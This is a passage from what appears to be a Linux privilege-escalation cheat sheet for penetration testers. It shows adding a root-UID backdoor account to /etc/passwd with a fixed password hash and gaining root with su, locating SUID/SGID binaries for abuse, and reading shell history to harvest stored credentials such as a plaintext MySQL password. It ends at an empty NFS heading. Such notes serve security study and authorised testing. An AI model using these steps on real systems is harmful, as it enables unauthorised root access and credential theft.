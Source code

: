 ```
root:L9yLGxncbOROc:0:0:root:/root:/bin/bash
```

4. Use the su command to switch to the root user:

```
su
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```

5. Alternatively, append a new row to /etc/passwd to create an alternate root user (e.g. newroot):

```
newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash
```

6. Use the su command to switch to the newroot user:

```
su newroot
Password:
# id
uid=0(root) gid=0(root) groups=0(root)
```

## <mark style="color:red;">SUIDs and GUIDs</mark>

We can use `find` to locate SUID programs and discover which programs are SUID:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Next we can use this source to find exploitable methods of the found binary:

GTFO Bins:&#x20;

{% embed url="https://gtfobins.github.io/" %}

## <mark style="color:red;">Stored Passwords</mark>

View the contents of hidden files in the user’s home directory:

```
$ cat ~/.*history | less
ls -al
cat .bash_history
ls -al
mysql -h somehost.local -uroot -ppassword123
```

You can also check for configuration files inside the OS.

## <mark style="color:red;">NFS</mark>
